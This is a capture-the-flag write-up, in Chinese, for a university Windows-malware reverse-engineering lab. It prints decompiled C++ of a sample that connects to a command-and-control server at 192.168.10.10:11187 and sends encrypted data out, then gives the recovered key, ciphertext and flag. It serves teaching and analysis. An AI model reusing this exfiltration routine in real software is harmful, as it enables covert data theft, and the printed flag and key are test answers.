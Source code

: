 ```yaml
---
title: Simple Reverse - 0x23(2023 Lab - WinMalware - Exfiltrate)
tags: [eductf, CTF, Reverse]

category: "Security > Course > NTU CS > Reverse > WinMalware Lab"
---
```


# Simple Reverse - 0x23(2023 Lab - WinMalware - Exfiltrate)
## Description
> 請根據 next stage payload 的行為，分析 capture.pcapng 中的封包，找出並解密被滲出/傳送到 C2 server 的資料。
## Background
* [WSAStartup](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock/nf-winsock-wsastartup)
* [htons](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock/nf-winsock-htons)
* [socket](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock2/nf-winsock2-socket)
* [sockaddr](https://learn.microsoft.com/zh-tw/windows/win32/winsock/sockaddr-2)
* [WSAConnect](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock2/nf-winsock2-wsaconnect)
## Source Code
* exfiltrate
    :::spoiler source
    ```cpp
    void __fastcall exfiltrate(PUCHAR pbInput)
    {
      __int64 s[2]; // [rsp+28h] [rbp-10h] BYREF

      connect_to_c2(s);
      send_collected_data_to_c2(s[0], pbInput);
      shutdown(s[0], 1);
      closesocket(s[0]);
    }
    ```
    :::
* connect_to_c2
    :::spoiler source
    ```cpp
    void __fastcall connect_to_c2(unsigned __int64 *a1)
    {
      unsigned __int64 v2; // rax
      struct sockaddr name; // [rsp+20h] [rbp-1B8h] BYREF
      struct WSAData WSAData; // [rsp+30h] [rbp-1A8h] BYREF

      if ( !WSAStartup(0x202u, &WSAData) )
      {
        *&name.sa_data[2] = 168470720;
        *name.sa_data = htons(0x2BB3u);
        name.sa_family = 2;
        v2 = socket(2, 1, 6);
        *a1 = v2;
        connect(v2, &name, 16);
      }
    }
    ```
    :::
* send_collected_data_to_c2
    :::spoiler source
    ```cpp
    void __fastcall send_collected_data_to_c2(SOCKET s, PUCHAR pbInput)
    {
      char *v4; // rbx
      int v5; // esi
      int i; // eax
      char v7; // al
      int j; // ecx
      int v9; // eax

      v4 = malloc(0x4Cui64);
      *v4 = 0x11877811;
      *(v4 + 1) = 4;
      *(v4 + 2) = 0;
      if ( send(s, v4, 76, 0) > 0xB )
      {
        v5 = 0;
        while ( v5 <= 2 )
        {
          if ( recv(s, v4, 76, 0) > 0xB && *v4 == 0x11877811 )
          {
            v9 = *(v4 + 2);
            if ( v9 )
            {
              switch ( v9 )
              {
                case 1:
                  *v4 = 0x11877811;
                  *(v4 + 1) = 4;
                  *(v4 + 2) = 1;
                  encrypt_key = (v4 + 12);
                  encrypt_data(pbInput);
                  for ( i = 2; i <= 23; ++i )
                    v4[i + 12] += v4[i + 11] - v4[i + 10];
                  break;
                case 2:
                  *v4 = 0x11877811;
                  *(v4 + 1) = 28;
                  *(v4 + 2) = 2;
                  memcpy_s(v4 + 12, 0x18ui64, cipher, 0x18ui64);
                  break;
                case 3:
                  goto LABEL_20;
              }
            }
            else
            {
              *v4 = 0x11877811;
              *(v4 + 1) = 4;
              *(v4 + 2) = 0;
            }
            for ( j = 0; j <= 39; ++j )
            {
              v7 = v4[j + 36] + v4[43] + v4[49] - v4[67];
              v4[j + 36] = v7;
              v4[j + 36] = v4[54] - (v4[61] + v4[69]) + v7;
            }
            send(s, v4, 76, 0);
            ++v5;
          }
        }
    LABEL_20:
        free(v4);
      }
    }
    ```
    :::
## Recon
1. `connet_to_c2`
    目標是取得c2 server的IP和port number
    1. 先看到#12的socket function，他代表的意思是利用IPv4並且TCP的protocol進行溝通，相關的數值說明都在[MSDN](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock2/nf-winsock2-socket)，可以用前面教到的用m指令改變已知的constant名稱$\to$`v2 = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);`
    2. 接著看到connect function中的`&name`，IDA原本解析成sockaddr，sockaddr是一種通用的結構格式，所以IDA解析出來的東西也沒有問題，不過如果是IPv4又是乙太網路的傳輸，會比較建議把結構改成==sockaddr_in==，[這一篇](https://blog.csdn.net/tao546377318/article/details/72780685)探討了兩者的區別(其實就只是把sockaddr原本的結構擴展而已)，這樣的話整體分析會更好
        :::spoiler 解析後
        ```cpp
        void __fastcall connect_to_c2(unsigned __int64 *a1)
        {
          unsigned __int64 v2; // rax
          struct sockaddr_in name; // [rsp+20h] [rbp-1B8h] BYREF
          struct WSAData WSAData; // [rsp+30h] [rbp-1A8h] BYREF

          if ( !WSAStartup(0x202u, &WSAData) )
          {
            name.sin_addr.S_un.S_addr = 0xA0AA8C0;      // IP: 192.168.10.10
            name.sin_port = htons(11187u);              // Port No.: 11187
            name.sin_family = AF_INET;
            v2 = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
            *a1 = v2;
            connect(v2, &name, 16);
          }
        }
        ```
        :::
    :::info
    IP: 0xA0AA8C0 $\to$ `192.168.10.10`(little endian轉十進位)
    Port: `11187`
    sin.family: IPv4
    Protocol: TCP
    :::
2. `send_collected_data_to_c2`
    1. 先切分程式碼的功能
        ![](https://hackmd.io/_uploads/rkci81Aza.png)
        有時候通靈不一定很準，所以要適時的回頭檢查自己的猜測
    2. 前四行初始化的階段(malloc 0x4c然後塞三個dword)，應該是作者自定義的結構，可以利用Structures，自定義一個新的結構，大小就是0x4C，然後前三個可以定義為dd，並且把v4的結構改成packet(按Y)
        ![](https://hackmd.io/_uploads/ByQtqk0Mp.png)
    3. 各種rename
        * field_0看起來像是一個magic bytes，因為一開始附值之後，傳送過去server，再接收回來的packet也是有做驗證的動作，所以看起來是一個verification magic
        * field_8看起來就是接收來自server下達的command
        * field_C就比較多元，在case 1的時候是當作承接server給的encryption key(大小是8個bytes)，但在case 2是當作加密的cipher(大小是0x18個bytes)，所以我取名`enc_key_or_data`，另外大小是0x18(可以從memcpy的大小看出來)，所以可以按Y改變型別成`char[0x18]`
    :::info
    目前整體的流程
    ![](https://hackmd.io/_uploads/HJJB7gCf6.png)
    ![](https://hackmd.io/_uploads/BkHSXeCM6.png)
    :::
    
    ---
    4. 分析pcap
        這一部就直接對照著講義上截圖或是剛剛分析的封包格式就可以知道哪一個是key哪一個是cipher
        Key: `f0 c7 d3 0e 7f 2c 15 ba`
        Cipher: `43 60 5b 5f 4e ba 9f 9e e3 78 6f 55 cb 81 24 fa e7 bf 0d 1b 3c 24 b7 4e`
        接下來就可以直接用cipherchef的線上功能decrypt其中的內容

:::success
![](https://hackmd.io/_uploads/HJdetgRGp.png)

Flag: `FLAG{C2_cU540m_Pr0t0C01}`
:::
